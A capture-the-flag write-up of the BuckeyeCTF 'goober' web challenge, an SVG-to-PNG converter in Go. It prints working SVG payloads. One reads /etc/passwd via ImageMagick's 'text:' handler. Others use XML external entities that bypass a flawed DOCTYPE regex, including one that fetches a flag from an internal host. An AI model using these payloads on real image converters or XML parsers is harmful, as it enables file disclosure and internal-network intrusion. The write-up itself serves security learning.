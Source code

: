 ```yaml
---
layout: post
current: post
cover:  assets/buckeye/nisala/cover2.png
navigation: True
title: "goober"
date: 2022-11-10 09:00:00
tags: [BuckeyeCTF, web]
class: post-template
subclass: 'post'
author: nisala
---
```


How on earth do SVGs have so many security vulnerabilities?

## The Challenge

> Javascript has built-in functionality to convert SVGs to PNGs. But Javascript is slow. You know what's fast! Golang! I created goober, the world's first online SVG to PNG converter written in Go.

Alright, so here we have an SVG to PNG converter written in Go. It uses ImageMagick to do the conversion. The website runs on a public server, which is available at `172.10.0.101`. There's also an internal server running at `172.10.0.102` which contains the flag (it's at `172.10.0.102/flag`). So we need to get the flag from the internal server -- but we can only submit to the public server! So I guess we're going to have to make that request using SVGs.

## LFI

Searching around on the Internet, I found out that SVGs can be used to perform local file inclusion, which is an attack that can get arbitrary local files from a server. That LFI can even be used to read text files by putting `text:` in front of the file path (thanks ImageMagick!).

```xml
<svg height="800px" width="800px">
    <image height="800" width="800" href="text:/etc/passwd" />
</svg>
```

And we get a file!
![LFI of /etc/passwd](/assets/buckeye/nisala/lfi1.png)

Unfortunately, our flag isn't on the public server -- it's on the private server, and we can't use this LFI attack to make HTTP requests. So we need to find another way to get the flag.

## LFI, but again and also more

Now, there's another way to get LFI with SVGs -- XML external entities. It turns out that with XML files, you can include external files in your file. These entities can also be from HTTP requests, so this is perfect for our purposes. And guess what? The XML parser is set up for this! Check out this line in `main.go`:

```go
data, err := libxml2.Parse(input, parser.Option(2))
```

Interesting -- what's `parser.Option(2)`? Looking online, it turns out that it turns on XML external entity parsing. So we can inject entities, right?

```xml
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "/etc/passwd"> ]>
<svg height="800px" width="800px">
    <text x="0" y="15" font-size="15" fill="red">&xxe;</text>
</svg>
```

Well, not so fast. Before data is put into the parser, the DOCTYPE tag is (supposed to be) removed with the following regex:

```go
reg := regexp.MustCompile(`<!DOCTYPE[^>[]*(\[[^]]*\])?>`)
contentSafe := reg.ReplaceAllString(contents, "")
```

Let's break this regex down. We start with `<!DOCTYPE`. Then, any character that isn't a `>` or `]` is matched. Then, the entity declarations are matched (`[`, anything, `]`), followed by `>` to close off the DOCTYPE tag. 

See the problem? Before entities, we match any characters (extraneous spaces, etc.) -- but after the entity declaration? Nothing. So all we have to do is add a space before `>`:

```xml
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "/etc/passwd"> ] >
<svg height="800px" width="800px">
    <text x="0" y="15" font-size="15" fill="red">&xxe;</text>
</svg>
```

And there we go!:
![LFI of /etc/passwd, again](/assets/buckeye/nisala/lfi2.png)

We can use this same approach to get the flag:
```xml
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "http://goober-internal:5001/flag"> ] >
<svg height="800px" width="800px">
    <text x="0" y="15" font-size="15" fill="red">&xxe;</text>
</svg>
```

![Flag image](/assets/buckeye/nisala/lfi3.png)

And there's our flag: `buckeye{wh0_n33ds_4n_htm1_c4n4s}`